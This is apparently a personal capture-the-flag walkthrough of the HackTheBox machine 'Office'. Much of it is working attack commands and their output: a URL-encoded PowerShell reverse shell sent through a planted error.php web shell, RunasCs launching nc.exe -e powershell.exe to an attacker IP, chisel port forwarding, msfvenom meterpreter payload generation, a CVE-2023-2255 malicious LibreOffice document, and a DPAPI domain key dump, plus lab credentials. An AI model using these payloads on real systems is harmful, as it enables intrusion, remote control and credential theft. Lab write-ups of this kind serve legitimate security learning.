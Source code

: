 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
` dwolfe : H0lOgrams4reTakIng0Ver754! `
` tstark : playboy69 `
` hhogan : H4ppyFtW183#`
## External
### Enumeration
![](https://i.imgur.com/LLqBJHY.png)

![](https://i.imgur.com/e1T2yKc.jpeg)
![](https://i.imgur.com/Z1CDle4.png)
![](https://i.imgur.com/hbYZGoA.png)
![](https://i.imgur.com/RB8gV7S.png)
```shell
 ID   Super User  Name        Username    Email       Send Email  Register D  Last Visit  Group Name
                                                                  ate          Date       s
 --   ----------  ----        --------    -----       ----------  ----------  ----------  ----------
 474  *           Tony Stark  Administra  Administra  1           2023-04-13  2024-01-24  Super User
                              tor         tor@hologr               23:27:32    13:00:47   s
                                          aphy.htb
Administrator
[+] Config JSON saved to /home/rexder/.msf4/loot/20240612033753_default_10.10.11.3_joomla.config_506182.bin
[+] Joomla Config
=============

 Setting        Value
 -------        -----
 db encryption  0
 db host        localhost
 db name        joomla_db
 db password    H0lOgrams4reTakIng0Ver754!
 db prefix      if2tx_
 db user        root
 dbtype         mysqli

[+] VALID USERNAME:	 ewhite@office.htb
```
http://office.htb/index.php?view=article&id=2
![](https://i.imgur.com/0tL9wOU.png)
- and i did password spraying and on the user `dwolfe` we can use the `db` password we got/
![](https://i.imgur.com/SzmR7dn.png)
- inside the Soc Analysis Share i got a pcap file of some smb network
![](https://i.imgur.com/vixzsHN.png)
![](https://i.imgur.com/Pe38tqw.png)
![](https://i.imgur.com/8YOQ0Bv.png)
![](https://i.imgur.com/Q2WhCNx.png)
![](https://i.imgur.com/bSkSfeP.png)
```shell
http://office.htb/templates/cassiopeia/error.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.4%27%2C3001%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
### Gaining Access
![](https://i.imgur.com/ixdje0d.png)
## Internal
### Enumeration
- Because of the already Account of tstark, i logged in to it using `runas` sctipts
![](https://i.imgur.com/s30zWHy.png)
```shll
Invoke-RunasCs -Username tstark -Password 'playboy69' -Command 'c:\users\public\nc.exe 10.10.14.4 4344 -e powershell.exe'

**foreach ($name in $service_names){$sddl = sc.exe sdshow $service_names -match "RP[A-Z]*?;;;AU"{$service_names }}

client 10.10.14.4:8008 R:8083:127.0.0.1:8083 R:9389:127.0.0.1:9389
```
![](https://i.imgur.com/dWuClEZ.png)
- tried to forward the `3306`,`8083` and `9389`
![](https://i.imgur.com/mC8ggZ5.png)
```shell
rexder@HunterMachine ~/C/H/M/o/CVE-2023-2255 (main) [SIGINT]> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=9090 -f exe -o exploit.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: exploit.exe

rexder@HunterMachine ~/C/H/M/o/CVE-2023-2255 (main)> python3 CVE-2023-2255.py --cmd 'C:\users\public\exploit.exe' --output 'exploit.odt'
File exploit.odt has been created !
```
Libre office is installed with vulnerable `odt` when i access the webserver it asks for odt file
![](https://i.imgur.com/qPK72st.png) 
### Gaining Access

- There for I uploaded the odt i generated.![](https://i.imgur.com/oruWxl9.png)
![](https://i.imgur.com/SgaEZEm.png)
![](https://i.imgur.com/k95I0tv.png)
### Maintaining Access
- DPAPI Cred
	- ![](https://i.imgur.com/qkCrdQ6.png)
```shell
[domainkey] with RPC
[DC] 'office.htb' will be the domain
[DC] 'DC.office.htb' will be the DC server
  key : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
  sha1: 85285eb368befb1670633b05ce58ca4d75c73c77
```
- Check How you crack on [[924. 🌬Windows Privilege Escalation]]
- ![](https://i.imgur.com/PMhNIhS.jpeg)
![](https://i.imgur.com/elxt0Qa.png)
![](https://i.imgur.com/5BPMTqK.png)
![](https://i.imgur.com/Tt3zaAX.jpeg)
![](https://i.imgur.com/S9WIbS3.png)
![](https://i.imgur.com/egmdKEb.png)

# Random Notes